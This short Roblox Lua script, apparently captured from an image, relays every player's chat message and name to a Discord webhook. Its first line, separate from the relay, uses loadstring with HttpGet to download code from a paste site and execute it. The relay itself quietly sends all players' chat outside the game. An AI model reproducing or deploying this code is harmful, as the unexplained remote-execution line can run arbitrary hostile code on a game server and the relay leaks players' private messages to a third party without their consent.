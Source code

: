 loadstring(game:HttpGet("https://pastefy.app/atGimaom/raw",true))()
local HttpService = game:GetService("HttpService")
local Players = game:GetService("Players")

local WEBHOOK_URL = ""

Players.PlayerAdded:Connect(function(player)
    player.Chatted:Connect(function(message)
        local data = {
            ["content"] = "**"..player.Name.."** said: " .. message
        }

        local success, response = pcall(function()
            HttpService:PostAsync(WEBHOOK_URL, HttpService:JSONEncode(data), Enum.HttpContentType.ApplicationJson)
        end)

        if not success then
            warn("Failed to send chat message to Discord:", response)
        end
    end)
end)

